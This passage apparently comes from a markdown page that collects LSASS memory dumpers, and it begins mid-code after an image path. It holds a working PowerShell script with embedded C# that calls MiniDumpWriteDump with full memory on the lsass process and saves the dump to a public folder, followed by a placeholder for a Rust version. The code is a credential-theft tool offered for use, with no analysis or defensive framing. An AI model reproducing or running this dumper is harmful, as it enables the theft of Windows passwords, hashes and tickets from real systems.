 ```powershell
        WithoutOptionalData = 0x00000400,
        WithFullMemoryInfo = 0x00000800,
        WithThreadInfo = 0x00001000,
        WithCodeSegs = 0x00002000,
        WithoutAuxiliaryState = 0x00004000,
        WithFullAuxiliaryState = 0x00008000,
        WithPrivateWriteCopyMemory = 0x00010000,
        IgnoreInaccessibleMemory = 0x00020000,
        ValidTypeFlags = 0x0003ffff,
    }
    [DllImport("Dbghelp.dll")]
    private static extern bool MiniDumpWriteDump(
        IntPtr hProcess,
        uint processId,
        IntPtr hFile,
        Option dumpType,
        IntPtr exceptionParam,
        IntPtr userStreamParam,
        IntPtr callbackParam
    );
    public static void Dump(string path, int processId) {
        using (Process process = Process.GetProcessById(processId)) {
            using (var fileStream = new System.IO.FileStream(path, System.IO.FileMode.Create)) {
                MiniDumpWriteDump(
                    process.Handle,
                    (uint)processId,
                    fileStream.SafeFileHandle.DangerousGetHandle(),
                    Option.WithFullMemory,
                    IntPtr.Zero,
                    IntPtr.Zero,
                    IntPtr.Zero
                );
            }
        }
    }
}
"@

$path = "C:\users\public\test123.txt"
$process = Get-Process lsass.exe
[MiniDump]::Dump($path, $process.Id)
```

## Rust

```
TODO: Write the LSASS Dumper in Rust
```

---
## References
